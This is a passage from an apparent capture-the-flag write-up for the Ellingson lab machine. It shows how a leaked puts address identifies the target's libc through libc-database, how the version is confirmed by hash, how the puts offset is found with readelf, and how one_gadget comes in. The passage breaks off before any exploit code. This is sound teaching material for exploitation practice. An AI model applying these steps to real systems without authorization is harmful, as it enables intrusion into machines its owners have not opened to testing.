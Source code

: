 I know the address of the leak from the previous run. I'll feed the low
three nibbles into the database:



    root@kali:/opt/libc-database# ./find puts 9c0
    http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb (id libc6_2.27-3ubuntu1_amd64)
    archive-old-glibc (id libc6_2.3.6-0ubuntu20_i386)



It returns two possible libc version. Since I believe this is a x64
host, I'll use the first one. I can get other offsets from the db, but I
can also just download a copy:



    root@kali:/opt/libc-database# ./download libc6_2.27-3ubuntu1_amd64
    Getting libc6_2.27-3ubuntu1_amd64
      -> Location: http://mirrors.kernel.org/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb
      -> Downloading package
      -> Extracting package
      -> Package saved to libs/libc6_2.27-3ubuntu1_amd64



I can show it's the same one as target:



    root@kali:/opt/libc-database# scp margo@10.10.10.139:/lib/x86_64-linux-gnu/libc.so.6 /tmp/
    margo@10.10.10.139's password:
    libc.so.6                                        100% 1983KB   1.0MB/s   00:01    

    root@kali:/opt/libc-database# md5sum /tmp/libc.so.6 libs/libc6_2.27-3ubuntu1_amd64/libc.so.6
    50390b2ae8aaa73c47745040f54e602f  /tmp/libc.so.6
    50390b2ae8aaa73c47745040f54e602f  libs/libc6_2.27-3ubuntu1_amd64/libc.so.6



#### puts Offset

Since I'm leaking `puts`, I need that offset to the start of libc:



    margo@ellingson:~$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep " puts@@GLIBC"
       422: 00000000000809c0   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5



Now I can find the offset to `puts` in this libc. I can subtract this
value from any leak to get the current libc base address.

### One Gadget

I've been meaning to play with
[one_gadget](https://github.com/david942j/one_gadget), so I gave it a
run. The install was easy with `gem install one_gadget`. Then I just ran
it on the libc from target:

